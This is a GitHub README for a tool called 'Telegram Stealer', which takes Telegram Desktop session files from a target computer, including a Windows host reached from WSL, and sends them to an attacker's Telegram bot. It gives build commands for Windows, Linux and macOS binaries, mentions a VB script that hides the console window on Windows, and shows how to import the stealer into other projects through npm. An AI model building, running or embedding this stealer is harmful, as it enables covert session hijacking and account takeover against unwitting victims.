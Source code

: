 # Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```js
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = (
  telegramChatId: string,
  telegramToken: string,
  archivePassword?: string,
  waitOnStart?: boolean
) => Promise<void>

await stealTelegram('<chat_id>', '<bot_token>', '<archivePassword>', false)
```

## License

[The MIT license](./LICENSE)
